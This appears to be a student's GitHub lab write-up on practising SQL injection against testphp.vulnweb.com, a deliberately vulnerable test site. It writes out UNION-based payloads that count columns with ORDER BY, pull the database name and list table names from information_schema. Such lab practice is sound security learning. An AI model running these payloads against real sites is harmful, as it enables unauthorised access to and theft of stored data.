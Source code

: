 # First Injection and Exploring

To start, the lab's first step is to analyze what happens if you tried an injection like this.
```
http://testphp.vulnweb.com/artists.php?artist=1
```
So before I did the injection, I looked over what information is publicly out in the site just so I can tell any differences after injecting. <br />

So then first tried the commands on the second link from my resources.<br />

Result: 
![image](https://github.com/user-attachments/assets/ab533ff6-7043-4fb4-9a2e-8a18aee6ef13)

Then I did: 
```
ORDER BY 1.
```
I did notice that the space in the URL translates to %20 but the site just went back to normal. <br />
![image](https://github.com/user-attachments/assets/96dd693d-4e1f-4868-bb68-4db854ee4c30)  <br />


removing the space result to an error again.<br />
![image](https://github.com/user-attachments/assets/c61e8fc5-c1f2-4926-bbbb-0cd2cf0ab335) <br />


kept doing ORDER BY, ‘til it errored on 4. So there’s only 4 columns on this table, the artists table.<br />
![image](https://github.com/user-attachments/assets/89245b7d-3fa1-4791-9e49-f8fd5743a812)

Then did <br />
```
union select 1,2,3
```
Which nothing new showed up.<br />
![image](https://github.com/user-attachments/assets/34a255aa-c42f-4d73-aeb9-16bf52baf154)<br />

I changed artist=1 to a -1. <br />
This time it showed some numbers. It could mean two artists in a table or it’s the second field name. <br />
I am unsure yet. I moved on to the next steps.<br />
![image](https://github.com/user-attachments/assets/df809abf-ac27-476e-9d6b-79e67d2258d3)<br />

Getting the database name. 
```
http://testphp.vulnweb.com/artists.php?artist=-1%20union%20select%201,database(),3
```
![image](https://github.com/user-attachments/assets/099f5e37-97b0-48ca-ad27-4377dcb009ab) <br />


I tried to look for any tables in the database: 
```
http://testphp.vulnweb.com/artists.php?artist=-1 union select 1,table_name,3 from information_schema.tables where table_schema=database() limit 0,1 
```
![image](https://github.com/user-attachments/assets/ce3fa655-dcab-4ded-9df1-65f222f5de95)<br />


Now, it showed a name “artists”. Assuming that’s the table name. and the artist is one of the field names.<br />

Then I changed limit 0,1 to 1,1 and continued changing it. <br />
```
union select 1,table_name,3 
from information_schema.tables 
where table_schema=database() limit 1,1 
```
table carts<br />
![image](https://github.com/user-attachments/assets/43b6052f-5d07-4eac-a9f7-7bc197fb59d1) <br /><br />

2,1 categ<br />
Table categ<br />
![image](https://github.com/user-attachments/assets/edb23b86-91cb-4838-9832-6331582f4b80) <br />

Then I jumped higher jumped higher. 5,1 pictures<br />
![image](https://github.com/user-attachments/assets/aab16d22-1624-4536-ae47-41c5c21b5c36)<br /><br />

9,1 was blank to I went back, 8,1 I also blank. So went further back to 7,1 which showed users. <br />
![image](https://github.com/user-attachments/assets/bd35f7db-328d-4253-bf98-38ffa8ea52a2)<br />
![image](https://github.com/user-attachments/assets/2500bf9c-b948-4c13-b7fb-48df18f86f7f)<br />

<b> So that concludes there are 8 tables.<br />
starting from 0,1-7,1.<br />
</b>

>[!NOTE]
> Next, [Breaking more queries](https://github.com/cherryot02/SQL-Injections/blob/main/Breaking-More-Queries.md)!





